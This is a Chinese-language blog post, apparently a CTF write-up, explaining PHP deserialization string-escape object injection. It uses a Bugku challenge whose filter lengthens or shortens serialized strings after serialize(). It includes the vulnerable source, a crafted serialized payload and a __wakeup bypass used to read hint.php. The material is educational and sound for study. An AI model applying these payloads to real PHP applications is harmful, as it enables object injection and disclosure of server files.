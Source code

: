 ```yaml
---
title: PHP 反序列化与字符串逃逸
date: 2021-07-18 17:21:33
description: 
categories:
  - Pentest
tags:
  - 反序列化
---
```


### 0x00 漏洞成因
该漏洞主要是因为序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了 serialize 函数之后

### 0x01 条件
* 相邻两个属性的值是我们可以控制的
* 前一个属性的 s 长度可以发生变化（变长变短都可以）
    * 若变长则可以直接在该属性中注入对象来达到反序列化
    * 若变短则可以吞掉后面相邻属性的值，在后面的属性中注入新的对象

### 0x02 题目
Bugku CTF 的题
```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
// highlight_file(__FILE__);

class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
    public function __destruct(){
        if($this->hint==="hint.php") {
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        }
        var_dump($this->hint);
    }
    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;
    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function filter($data){
    $data = str_replace('123', 'abcdef', $data);
    return $data;
}

$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

$w = filter($a);
unserialize($w);
?>
```

### 0x03 分析
* 可以看到我们可以传入 username 和 password 触发 User 类，而我们需要触发 evil 类从而获取 hint.php
* 题目中序列化了 User 类然后结果被方法 write 和 read 处理后再反序列化
* filter 一个是将序列化后的字符串变长的函数
* 我们可以序列化 eval 类并作为参数传入 User，将 eval 当作 User 的一个元素从而触发 eval

### 0x04 获取触发 evil 的序列化字符串
```php
<?php
class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
}

var_dump(serialize(new evil("hint.php")));
?>
```
输出 `payload：O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`

### 0x05 利用(过滤后变长)
经过 filter 函数后，序列化的字符串中的 123 会被替换为 abcdef，整体来说遇到一个 123 字符串就会变长 3

```php
$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

var_dump($a);
echo "<br>";

$w = filter($a);
var_dump($w);
echo "<br>";

unserialize($w);
```
post username=111&password=222，经过 filter 后输出
```php
O:4:"User":2:{s:8:"username";s:3:"111";s:8:"password";s:3:"222";}
```

可以看出其实可控的是 111 及后面的 222，我们需要将 User 类序列化的字符串想办法构造为

`O:4:"User":2:{s:8:"username";s:4:"111";     s:8:"password";`<f>序列化后的 evil 字符串</f>;}

当我们传入构造后的序列化 payload 后
![](/img/post/16258097627342.jpg)

上图中，位置 2 在序列化的字符串中其实是 username 的值，是一个字符串，若我们在 1 的位置插入 60 个字符

则 username 的值为我们插入的 60 个字符，而 password 的值则为 payload <f>`O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`</f>，后面 3 位置的字符串失效，当反序列化时即可触发 evil，构造后如下图：
![](/img/post/16258101773735.jpg)
将 payload 中 evil 的属性个数改为大于存在的属性个数即可绕过 wakeup，最终得到 hint.php 的内容
![](/img/post/16258103107382.jpg)

### 0x06 延伸(过滤后变短)
更改 filter 函数，经过处理后序列号字符串变短
```php
function filter($data){
    $data = str_replace('abcdef', '123', $data);
    return $data;
}
```
若处理后变短则可以吞掉后面相邻属性的值，所以可以在后面的属性中注入新的对象

前面的属性经过处理后变短，需要我们填充垃圾字符串，使长度和原来相同，就会注入 evil 对象即可
![](/img/post/16258114498309.jpg)

从上图可以看出，输入的字符串被替换为了 123123，但是显示的长度还是 12，位数不对时反序列化就会出错

我们需要把位置 1 的数字和位置 2 的字符串的位数设置为相同，这样反序列化不会出错且位置 3 还会触发 evil

具体如下，可触发 evil 得到 hint.php 中的内容：
![](/img/post/16258119470950.jpg)

<br>
#### Reference(侵删)：
* [https://blog.csdn.net/qq_25755011/article/details/115950424](https://blog.csdn.net/qq_25755011/article/details/115950424?_blank)
* [https://www.cnblogs.com/tr1ple/p/11876441.html](https://www.cnblogs.com/tr1ple/p/11876441.html?_blank)
* [https://cloud.tencent.com/developer/article/1627299](https://cloud.tencent.com/developer/article/1627299?_blank)
